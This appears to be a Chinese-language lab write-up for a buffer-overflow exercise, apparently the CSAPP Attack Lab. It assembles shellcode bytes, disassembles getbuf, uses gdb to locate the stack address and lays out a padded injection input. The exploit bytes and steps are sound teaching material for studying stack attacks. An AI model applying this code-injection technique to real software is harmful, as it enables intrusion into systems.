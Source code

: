 ![image-20211218215803517](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211218215803517.png)

首先我们，gcc -c 12.s -o 12.o

然后objdump -d 12.o

![image-20211218220059089](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211218220059089.png)

![image-20211218220106634](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211218220106634.png)

我们的shellcode就是

```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```



```cpp
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28           sub    $0x28,%rsp
  4017ac: 48 89 e7              mov    %rsp,%rdi
  4017af: e8 8c 02 00 00        callq  401a40 <Gets>
  4017b4: b8 01 00 00 00        mov    $0x1,%eax
  4017b9: 48 83 c4 28           add    $0x28,%rsp
  4017bd: c3                    retq   
  4017be: 90                    nop
  4017bf: 90                    nop
```

我们在rsp把值给出去后打一个断点，也就是b *0x4017ac

disas 反汇编当前函数

![image-20211218220719240](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211218220719240.png)

stepi 就是单步步入，也就是si

p变量名，也就是print

打印rsp中的值

也就是0x5561dc78

我们为什么需要这个值呢？

为了保证我们输入的能够执行

![image-20211218221628876](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211218221628876.png)

可以看到首地址为`0x5561dc78`，顺便看到第6行也就是0x28个字节之后存放的原返回地址。

````
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
````
